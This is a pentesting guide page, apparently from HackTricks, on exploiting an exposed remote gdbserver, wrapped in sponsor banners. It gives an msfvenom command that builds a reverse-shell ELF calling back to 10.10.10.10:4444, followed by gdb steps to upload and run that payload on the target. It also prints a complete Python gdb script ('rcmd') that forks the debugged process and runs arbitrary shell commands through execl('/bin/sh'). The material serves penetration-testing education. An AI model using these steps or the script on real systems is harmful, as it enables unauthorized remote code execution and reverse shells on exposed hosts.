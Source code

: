 # Pentesting Remote GdbServer

{{#include ../banners/hacktricks-training.md}}

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Basic Information**

**gdbserver** is a tool that enables the debugging of programs remotely. It runs alongside the program that needs debugging on the same system, known as the "target." This setup allows the **GNU Debugger** to connect from a different machine, the "host," where the source code and a binary copy of the debugged program are stored. The connection between **gdbserver** and the debugger can be made over TCP or a serial line, allowing for versatile debugging setups.

You can make a **gdbserver listen in any port** and at the moment **nmap is not capable of recognising the service**.

## Exploitation

### Upload and Execute

You can easily create an **elf backdoor with msfvenom**, upload it and execute is:

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

### Execute arbitrary commands

There is another way to **make the debugger execute arbitrary commands via a** [**python custom script taken from here**](https://stackoverflow.com/questions/26757055/gdbserver-execute-shell-commands-of-the-target).

```bash
# Given remote terminal running `gdbserver :2345 ./remote_executable`, we connect to that server.
target extended-remote 192.168.1.4:2345

# Load our custom gdb command `rcmd`.
source ./remote-cmd.py

# Change to a trusty binary and run it to load it
set remote exec-file /bin/bash
r

# Run until a point where libc has been loaded on the remote process, e.g. start of main().
tb main
r

# Run the remote command, e.g. `ls`.
rcmd ls
```

First of all **create locally this script**:

```python:remote-cmd.py
#!/usr/bin/env python3

import gdb
import re
import traceback
import uuid


class RemoteCmd(gdb.Command):
    def __init__(self):
        self.addresses = {}

        self.tmp_file = f'/tmp/{uuid.uuid4().hex}'
        gdb.write(f"Using tmp output file: {self.tmp_file}.\n")

        gdb.execute("set detach-on-fork off")
        gdb.execute("set follow-fork-mode parent")

        gdb.execute("set max-value-size unlimited")
        gdb.execute("set pagination off")
        gdb.execute("set print elements 0")
        gdb.execute("set print repeats 0")

        super(RemoteCmd, self).__init__("rcmd", gdb.COMMAND_USER)

    def preload(self):
        for symbol in [
            "close",
            "execl",
            "fork",
            "free",
            "lseek",
            "malloc",
            "open",
            "read",
        ]:
            self.load(symbol)

    def load(self, symbol):
        if symbol not in self.addresses:
            address_string = gdb.execute(f"info address {symbol}", to_string=True)
            match = re.match(
                f'Symbol "{symbol}" is at ([0-9a-fx]+) .*', address_string, re.IGNORECASE
            )
            if match and len(match.groups()) > 0:
                self.addresses[symbol] = match.groups()[0]
            else:
                raise RuntimeError(f'Could not retrieve address for symbol "{symbol}".')

        return self.addresses[symbol]

    def output(self):
        # From `fcntl-linux.h`
        O_RDONLY = 0
        gdb.execute(
            f'set $fd = (int){self.load("open")}("{self.tmp_file}", {O_RDONLY})'
        )

        # From `stdio.h`
        SEEK_SET = 0
        SEEK_END = 2
        gdb.execute(f'set $len = (int){self.load("lseek")}($fd, 0, {SEEK_END})')
        gdb.execute(f'call (int){self.load("lseek")}($fd, 0, {SEEK_SET})')
        if int(gdb.convenience_variable("len")) <= 0:
            gdb.write("No output was captured.")
            return

        gdb.execute(f'set $mem = (void*){self.load("malloc")}($len)')
        gdb.execute(f'call (int){self.load("read")}($fd, $mem, $len)')
        gdb.execute('printf "%s\\n", (char*) $mem')

        gdb.execute(f'call (int){self.load("close")}($fd)')
        gdb.execute(f'call (int){self.load("free")}($mem)')

    def invoke(self, arg, from_tty):
        try:
            self.preload()

            is_auto_solib_add = gdb.parameter("auto-solib-add")
            gdb.execute("set auto-solib-add off")

            parent_inferior = gdb.selected_inferior()
            gdb.execute(f'set $child_pid = (int){self.load("fork")}()')
            child_pid = gdb.convenience_variable("child_pid")
            child_inferior = list(
                filter(lambda x: x.pid == child_pid, gdb.inferiors())
            )[0]
            gdb.execute(f"inferior {child_inferior.num}")

            try:
                gdb.execute(
                    f'call (int){self.load("execl")}("/bin/sh", "sh", "-c", "exec {arg} >{self.tmp_file} 2>&1", (char*)0)'
                )
            except gdb.error as e:
                if (
                    "The program being debugged exited while in a function called from GDB"
                    in str(e)
                ):
                    pass
                else:
                    raise e
            finally:
                gdb.execute(f"inferior {parent_inferior.num}")
                gdb.execute(f"remove-inferiors {child_inferior.num}")

            self.output()
        except Exception as e:
            gdb.write("".join(traceback.TracebackException.from_exception(e).format()))
            raise e
        finally:
            gdb.execute(f'set auto-solib-add {"on" if is_auto_solib_add else "off"}')


RemoteCmd()
```

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{{#include ../banners/hacktricks-training.md}}


